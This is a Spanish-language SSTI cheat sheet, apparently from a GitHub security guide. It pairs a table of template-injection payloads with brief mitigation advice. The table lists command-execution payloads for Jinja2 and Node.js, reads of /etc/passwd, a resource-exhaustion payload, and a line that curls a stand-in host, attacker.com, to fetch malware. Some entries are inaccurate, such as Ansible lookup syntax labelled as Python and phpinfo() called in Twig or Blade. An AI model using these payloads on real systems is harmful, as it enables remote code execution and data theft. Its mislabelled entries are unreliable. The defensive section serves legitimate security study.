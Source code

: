 #### **Tabla de Payloads y Bypasses para SSTI**

Aquí tienes algunos **payloads comunes y bypasses** para explotar vulnerabilidades SSTI, junto con explicaciones de cómo funcionan y cómo pueden ser utilizados.

| **Descripción**                                     | **Payload/Bypass**                                                                                     | **Explicación**                                                                                                                    |
| --------------------------------------------------- | ------------------------------------------------------------------------------------------------------ | ---------------------------------------------------------------------------------------------------------------------------------- |
| **Acceder a variables del sistema**                 | `{{ config }}`                                                                                         | En aplicaciones Python con Jinja2, `{{ config }}` puede mostrar la configuración del servidor, lo que revela información sensible. |
| **Ejecutar operaciones matemáticas**                | `{{ 7*7 }}`                                                                                            | Permite a un atacante realizar operaciones dentro del motor de plantillas para probar si tiene capacidad de ejecutar código.       |
| **Acceder a variables de entorno**                  | `{{ os.environ }}`                                                                                     | En aplicaciones con Jinja2 o Twig, esto puede permitir al atacante acceder a las variables de entorno del servidor.                |
| **Acceder a archivos del sistema (Python)**         | `{{ lookup('file', '/etc/passwd') }}`                                                                  | Permite al atacante leer archivos sensibles del sistema como `/etc/passwd` en sistemas Linux.                                      |
| **Ejecutar código arbitrario (Python)**             | `{{ ''.__class__.__mro__[1].__subclasses__()[59]('ls').communicate() }}`                               | En aplicaciones Python con Jinja2, este payload ejecuta el comando `ls` para listar archivos en el sistema.                        |
| **Ejecución remota de comandos (PHP)**              | `{{ phpinfo() }}`                                                                                      | En aplicaciones PHP con Twig o Blade, este payload ejecuta la función `phpinfo()`, que revela detalles del servidor.               |
| **Acceso a rutas del sistema de archivos (PHP)**    | `{{ include('file:///etc/passwd') }}`                                                                  | Permite al atacante incluir archivos locales, como `/etc/passwd`, dentro de la respuesta generada por la plantilla.                |
| **Desbordamiento de pila (Denegación de servicio)** | `{{ ''.join(['a'*1000]*1000) }}`                                                                       | En aplicaciones con plantillas que no validan adecuadamente, este tipo de carga puede agotar recursos del servidor.                |
| **Ejecución de comandos (Node.js)**                 | `{{ require('child_process').execSync('ls').toString() }}`                                             | En aplicaciones Node.js que usan motores de plantillas como EJS, este payload ejecuta el comando `ls` en el servidor.              |
| **Explotación de funciones internas (Python)**      | `{{ ''.__class__.__mro__[1].__subclasses__()[59]('cat /etc/passwd').communicate() }}`                  | Permite ejecutar comandos del sistema en el servidor, revelando archivos sensibles como `/etc/passwd`.                             |
| **Acceso a servicios internos (HTTP Request)**      | `{{ ''.__class__.__mro__[1].__subclasses__()[59]('curl http://attacker.com/malware').communicate() }}` | Puede usarse para realizar una solicitud HTTP a un servidor controlado por el atacante.                                            |

***

#### **Protección contra SSTI**

1. **Escape de todas las entradas**: Asegúrate de que todas las entradas de los usuarios sean escapadas correctamente antes de ser utilizadas en una plantilla. En Jinja2, por ejemplo, esto puede lograrse mediante el uso de `{{ input | e }}` para escapar los datos de forma segura.
2. **Desactivar funciones peligrosas**: Desactiva todas las funciones peligrosas del motor de plantillas. Por ejemplo, en Jinja2, se puede hacer esto configurando adecuadamente el entorno de renderización para evitar que se pueda acceder a objetos peligrosos como `exec` o `eval`.
3. **Usar motores de plantillas seguros**: Algunos motores de plantillas permiten deshabilitar la ejecución de código. Usa estas configuraciones seguras para prevenir la ejecución no deseada de código.
4. **Revisión y control de las bibliotecas**: Mantén actualizadas las bibliotecas de plantillas, ya que las versiones más recientes generalmente incluyen correcciones para vulnerabilidades conocidas, como SSTI.

***

#### **Conclusión**

La vulnerabilidad **SSTI** es peligrosa porque permite a los atacantes ejecutar código arbitrario en el servidor, acceder a datos sensibles o realizar otros ataques maliciosos. Para proteger tu aplicación web de esta vulnerabilidad, es esencial validar y sanitizar las entradas, deshabilitar funciones peligrosas en el motor de plantillas y usar configuraciones seguras en el servidor. Con estas medidas, puedes mitigar los riesgos asociados con las inyecciones de plantillas y mejorar la seguridad de tu aplicación.
